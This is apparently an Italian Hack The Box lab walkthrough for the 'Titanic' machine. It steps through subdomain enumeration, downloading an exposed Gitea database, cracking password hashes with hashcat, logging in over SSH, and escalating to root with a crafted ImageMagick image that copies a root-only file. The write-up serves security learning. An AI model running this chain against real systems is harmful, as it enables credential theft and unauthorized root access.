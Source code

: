 # Titanic - Hack The Box Walkthrough

## 🕵️‍♂️ Primo Step: Ricognizione

La prima cosa che ho fatto è stata una scansione della rete con **nmap** per individuare porte aperte e servizi attivi.

```bash
nmap -sC -sV -T4 -oN scan.txt <IP>
```

L'output non ha rivelato nulla di particolarmente interessante, quindi ho deciso di analizzare il sito web principale. Dopo un'ispezione manuale senza successo, ho eseguito una scansione con **Gobuster** per cercare sottodomini.

```bash
gobuster dns -d <target> -w wordlist.txt
```

Grazie a questa scansione, ho trovato un sottodominio chiamato `dev`.

Visitando `dev.<target>`, ho scoperto che si trattava di un'istanza di **Gitea**, una piattaforma simile a GitHub per il versionamento del codice. Esplorando il repository pubblico, ho individuato un utente chiamato `developer`, che potrebbe essere interessante.

Scorrendo tra i file caricati, ho trovato dei file di configurazione, uno relativo a **Gitea** e un altro a **MySQL**.

## 📂 Accesso al Database

Ho tentato di connettermi direttamente a MySQL, ma la porta non era aperta. Tuttavia, consultando la documentazione di Gitea, ho scoperto che il database `gitea.db` si trova nel percorso `data/gitea`. Ho provato a scaricarlo con **curl**:

```bash
curl -O http://dev.<target>/data/gitea/gitea.db
```

Aprendo il database con **sqlite3**, ho trovato la tabella `user` contenente gli hash delle password.

```bash
sqlite3 gitea.db
sqlite> .tables
sqlite> SELECT * FROM user;
```

L'hash della password era in un formato specifico di Gitea. Per decodificarlo in un formato leggibile da **hashcat**, ho usato uno script Python trovato su GitHub.

```bash
python convert_hash.py gitea_hash.txt
```

Dopo la conversione, ho lanciato **hashcat** per effettuare un attacco brute-force usando la wordlist `rockyou.txt`.

```bash
hashcat -m <mode> hash.txt rockyou.txt --force
```

Dopo qualche minuto, ho trovato la password: **25282528**.

## 🔑 Accesso SSH e User Flag

Ora che ho una password valida, ho provato ad accedere tramite SSH all'utente `developer`:

```bash
ssh developer@<IP>
```

Una volta dentro, ho esplorato la directory home dell'utente e ho trovato la **user flag**!

```bash
cat user.txt
```

## 🚀 Privilege Escalation

Per ottenere i privilegi di root, ho iniziato controllando i permessi di `sudo`:

```bash
sudo -l
```

Purtroppo, non ho trovato comandi eseguibili senza password. Ho quindi esplorato il sistema in cerca di file o processi interessanti.

Dopo un po' di ricerca, ho trovato un file che utilizza una versione vulnerabile di **ImageMagick**.

## 🎨 Exploit di ImageMagick

La versione installata di ImageMagick presenta una vulnerabilità che permette l'esecuzione di codice arbitrario incorporato nelle immagini. Ho trovato una guida di **IppSec** che spiega come sfruttare questo bug.

Per sfruttare la vulnerabilità, ho utilizzato uno script Python per generare un'immagine malevola contenente un comando che copia la flag root in `/tmp/root.txt`.

```bash
python script.py -o exploit.png -c "cp /root/root.txt /tmp/root.txt"
```

Dopo aver caricato l'immagine nel sistema, il codice è stato eseguito con successo. Ho quindi potuto leggere la **root flag**!

```bash
cat /tmp/root.txt
```

---

## 🎯 Conclusione

Questa macchina ha richiesto un mix di tecniche di **ricognizione**, **exploit di Gitea**, **cracking di hash**, e **privilege escalation tramite ImageMagick**. È stata una sfida interessante che ha messo alla prova diverse competenze. 🚀
